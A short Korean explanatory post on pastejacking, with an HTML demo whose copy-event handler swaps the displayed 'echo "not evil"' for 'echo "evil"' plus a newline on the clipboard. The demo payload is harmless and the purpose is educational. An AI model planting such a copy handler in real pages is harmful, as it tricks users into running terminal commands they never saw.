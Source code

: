 ```html
<html>
 	<p>echo "not evil"</p>
 	<script>
 		document.addEventListener('copy', function(e) {
 			console.log(e);
 			e.clipboardData.setData('text/plain', 'echo "evil"\r\n');
 			e.preventDefault();
 		});
 	</script>
</html>
```

페이스트 재킹이라고, 카피 이벤트를 핸들링해서 유저가 보고 있는 화면과, 복사된 화면이 다르게 하는 경우가 있다. 위의 경우에는 echo "not evil" 이 실행될 거라 예상하고 복사해서 터미널에 붙이는 순간, 실제로는 echo "evil"이 실행된다. 물론 대부분 관리자 권한에 대해서는 따로 체크하겠지만, root 계정으로 접속되어 있는 상태라면 문제가 발생할 수도 있겠다.
